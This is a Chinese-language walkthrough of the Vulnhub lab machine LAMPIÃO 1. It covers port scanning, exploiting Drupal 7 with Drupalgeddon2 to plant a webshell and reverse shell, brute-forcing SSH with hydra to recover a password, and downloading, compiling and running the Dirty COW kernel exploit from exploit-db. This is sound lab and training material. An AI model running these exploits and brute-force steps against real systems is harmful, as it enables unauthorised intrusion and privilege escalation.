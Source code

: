 ```yaml
---
layer: article
title: Vulnhub	249 LAMPIÃO 1
tags: pentest vulnhub writeup
---
```


考点：drupal,hydra,暴力破解,dirtyc0w

靶机链接：<https://www.vulnhub.com/entry/lampiao-1,249/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| LAMPIÃO    | 10.0.2.9  |

## 初步打点

### 端口扫描

```bash
$ sudo arp-scan  -l           
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.9        08:00:27:58:66:90       PCS Systemtechnik GmbH
$ export tip=10.0.2.9         
$ sudo nmap -v -A -p- $tip    
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### WEB测试

看来要在80和1898端口突破

80扫一下就挂了

1898端口打开是个Web应用，页脚显示drupal

使用`whatweb`探测一下drupa版本

```bash
$ whatweb  http://10.0.2.9:1898
http://10.0.2.9:1898 [200 OK] Apache[2.4.7], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.0.2.9], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.5.9-1ubuntu4.24], PasswordField[pass], Script[text/javascript], Title[Lampião], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.24]

```

大概率是Drupal 7

### 漏洞发现

试试[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

运行报错
```ruby
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
```

google查询安装`highline`即可

```bash
$ sudo gem install highline
```

运行后显示`drupalgeddon2.rb` 已写入webshell

![1](https://static.iihack.com/vulnhub/249/1.PNG)



## 获得权限

### 靶机测试

#### 思路一 Drupalgeddon2

通过[Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)获得的webshell执行`id`

![2](https://static.iihack.com/vulnhub/249/2.PNG)

下载php-reverse-shell.php 访问，获得反弹shell

![3](https://static.iihack.com/vulnhub/249/3.PNG)

#### 思路二 暴力破解

##### 用户名

查看两个内容页面，对应用户名是 `tiago`和`Eder`作为用户名字典

```bash
$ cat user
tiago
eder
```

##### 密码

使用cewl获取个字典文件作为密码字典

```bash
$ cewl -w 1.txt http://10.0.2.9:1898/
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                
```

##### hydra

使用[hydra](https://www.iihack.com/pages/tools/hydra.html)爆破ssh
```bash
$ hydra -L user -P 1.txt 10.0.2.9 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1688 login tries (l:2/p:844), ~106 tries per task
[DATA] attacking ssh://10.0.2.9:22/
[22][ssh] host: 10.0.2.9   login: tiago   password: Virgulino
```

获得tiago的密码

![4](https://static.iihack.com/vulnhub/249/4.PNG)

ssh登陆成功

![5](https://static.iihack.com/vulnhub/249/5.PNG)

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍，打算使用脏牛提权，运行成功后管理员密码被修改为`dirtyCowFun`

```bash
$ wget https://www.exploit-db.com/download/40847 -O 40847.c
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.c -lutil
$ ./dcow
```

![6](https://static.iihack.com/vulnhub/249/6.PNG)
